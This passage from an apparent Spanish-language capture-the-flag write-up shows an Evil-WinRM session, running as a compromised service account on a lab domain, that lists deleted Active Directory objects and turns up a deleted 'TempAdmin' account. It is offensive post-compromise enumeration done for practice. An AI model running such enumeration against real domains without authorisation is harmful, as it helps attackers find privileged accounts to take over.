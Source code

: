 Vemos que pertenecemos al Grupo `AD Recycle Bin`

```bash

*Evil-WinRM* PS C:\Users\arksvc\Documents> Get-ADObject -ldapfilter "(&(isDeleted=TRUE))" -IncludeDeletedObjects


Deleted           : True
DistinguishedName : CN=Deleted Objects,DC=cascade,DC=local
Name              : Deleted Objects
ObjectClass       : container
ObjectGUID        : 51de9801-3625-4ac2-a605-d6bd71617681

Deleted           : True
DistinguishedName : CN=CASC-WS1\0ADEL:6d97daa4-2e82-4946-a11e-f91fa18bfabe,CN=Deleted Objects,DC=cascade,DC=local
Name              : CASC-WS1
                    DEL:6d97daa4-2e82-4946-a11e-f91fa18bfabe
ObjectClass       : computer
ObjectGUID        : 6d97daa4-2e82-4946-a11e-f91fa18bfabe

Deleted           : True
DistinguishedName : CN=Scheduled Tasks\0ADEL:13375728-5ddb-4137-b8b8-b9041d1d3fd2,CN=Deleted Objects,DC=cascade,DC=local
Name              : Scheduled Tasks
                    DEL:13375728-5ddb-4137-b8b8-b9041d1d3fd2
ObjectClass       : group
ObjectGUID        : 13375728-5ddb-4137-b8b8-b9041d1d3fd2

Deleted           : True
DistinguishedName : CN={A403B701-A528-4685-A816-FDEE32BDDCBA}\0ADEL:ff5c2fdc-cc11-44e3-ae4c-071aab2ccc6e,CN=Deleted Objects,DC=cascade,DC=local
Name              : {A403B701-A528-4685-A816-FDEE32BDDCBA}
                    DEL:ff5c2fdc-cc11-44e3-ae4c-071aab2ccc6e
ObjectClass       : groupPolicyContainer
ObjectGUID        : ff5c2fdc-cc11-44e3-ae4c-071aab2ccc6e

Deleted           : True
DistinguishedName : CN=Machine\0ADEL:93c23674-e411-400b-bb9f-c0340bda5a34,CN=Deleted Objects,DC=cascade,DC=local
Name              : Machine
                    DEL:93c23674-e411-400b-bb9f-c0340bda5a34
ObjectClass       : container
ObjectGUID        : 93c23674-e411-400b-bb9f-c0340bda5a34

Deleted           : True
DistinguishedName : CN=User\0ADEL:746385f2-e3a0-4252-b83a-5a206da0ed88,CN=Deleted Objects,DC=cascade,DC=local
Name              : User
                    DEL:746385f2-e3a0-4252-b83a-5a206da0ed88
ObjectClass       : container
ObjectGUID        : 746385f2-e3a0-4252-b83a-5a206da0ed88

Deleted           : True
DistinguishedName : CN=TempAdmin\0ADEL:f0cc344d-31e0-4866-bceb-a842791ca059,CN=Deleted Objects,DC=cascade,DC=local
Name              : TempAdmin
                    DEL:f0cc344d-31e0-4866-bceb-a842791ca059
ObjectClass       : user
ObjectGUID        : f0cc344d-31e0-4866-bceb-a842791ca059
```
